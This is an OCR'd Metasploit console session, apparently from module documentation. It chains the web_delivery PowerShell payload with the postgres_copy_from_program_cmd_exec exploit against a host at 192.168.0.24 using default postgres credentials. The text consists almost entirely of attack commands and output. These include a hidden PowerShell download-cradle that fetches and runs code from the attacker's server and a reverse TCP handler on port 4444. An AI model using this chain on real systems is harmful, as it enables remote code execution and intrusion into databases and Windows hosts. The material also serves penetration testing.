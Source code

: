 
    Exploit target:

       Id  Name
       --  ----
       2   PSH


    msf exploit(multi/script/web_delivery) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.0.18:4444
    [*] Using URL: http://0.0.0.0:8080/pUDD5sy8vTTD
    [*] Local IP: http://192.168.0.18:8080/pUDD5sy8vTTD
    [*] Server started.
    [*] Run the following command on the target machine:
    msf exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD');

    msf exploit(multi/script/web_delivery) > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
    DATABASE => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.24
    RHOSTS => 192.168.0.24
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

    Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
       DATABASE   postgres         yes       The database to authenticate against
       PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
       RHOSTS     192.168.0.24     yes       The target address range or CIDR identifier
       RPORT      5432             yes       The target port (TCP)
       TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
       USERNAME   postgres         yes       The username to authenticate as


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

    
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set COMMAND powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(\'http://192.168.0.18:8080/pUDD5sy8vTTD\');
    COMMAND => powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD')
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit
